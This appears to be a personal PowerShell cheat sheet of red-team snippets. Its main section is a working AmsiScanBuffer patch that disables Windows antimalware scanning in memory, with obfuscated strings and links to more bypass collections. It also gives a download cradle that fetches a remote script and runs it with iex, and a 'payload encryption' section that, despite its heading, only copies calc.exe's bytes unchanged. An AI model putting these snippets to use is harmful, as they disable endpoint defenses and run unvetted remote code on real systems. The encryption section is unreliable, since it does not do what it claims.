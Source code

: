 # In case of issues with TLS
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

# Download a script from an HTTP server
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/microsoft/ExPerfAnalyzer/main/ExPerfAnalyzer.ps1')
```

# Test on open/close port
```powershell
Test-NetConnection -Port 389 -InformationLevel "Detailed" <ip> 
```
- [Test-NetConnection](https://docs.microsoft.com/en-us/powershell/module/nettcpip/test-netconnection)

# Patching amsi.dll AmsiScanBuffer by rasta-mouse
```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
- [AMSI.fail](https://amsi.fail/)
- [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [A Detailed Guide on AMSI Bypass](https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/)
- [Small modification to Rastemouse's AmsiScanBuffer bypass to use bytes.](https://gist.github.com/FatRodzianko/c8a76537b5a87b850c7d158728717998)


# Payload encryption/decryption
## Encryption (WIP)
```powershell
$File="C:\Windows\System32\calc.exe"
#$Password = "LCSE39VzqmSL8fqE"

#$SecureStringPwd = ConvertTo-SecureString $Password -AsPlainText -Force

$RawBytes = Get-Content -Path $File -Encoding byte -Raw
#$B64RawBytes = [String][Convert]::ToBase64String($RawBytes)
#$SecureStringB64RawBytes = ConvertTo-SecureString $B64RawBytes -AsPlainText -Force

#$EncryptedRawBytes = ConvertFrom-SecureString -SecureString $SecureStringB64RawBytes -SecureKey $SecureStringPwd

# Set-Content -Encoding byte -Path "C:\calc.exe.encrypted" -Value $SecureStringB64RawBytes

$BinaryWriter = [System.IO.BinaryWriter]::new([System.IO.File]::Create("C:\calc.exe.encrypted"))
$BinaryWriter.Write($RawBytes)
$BinaryWriter.Close()
```
## Decryption (WIP)
```powershell
$File = "C:\calc.exe.encrypted"
# $Password = "LCSE39VzqmSL8fqE"
# $SecureStringPwd = ConvertTo-SecureString $Password -AsPlainText -Force

$EncryptedRawBytes = Get-Content -Path $File -Encoding byte -Raw
# $SecureStringData = ConvertTo-SecureString -String $EncryptedData -SecureKey $SecureStringPwd

# $BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($SecureStringData)
# $UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)

# Set-Content -Encoding byte -Path "C:\calc.exe" -Value $EncryptedData

$BinaryWriter = [System.IO.BinaryWriter]::new([System.IO.File]::Create("C:\calc.exe"))
$BinaryWriter.Write($EncryptedRawBytes)
$BinaryWriter.Close()
```

# How to grep in PowerShell 
```powershell
Select-String -Path "*.log" -Pattern "EMAIL_ADDRESS"
```
- [How to Use PowerShell Grep (Select-String)](https://adamtheautomator.com/powershell-grep/)
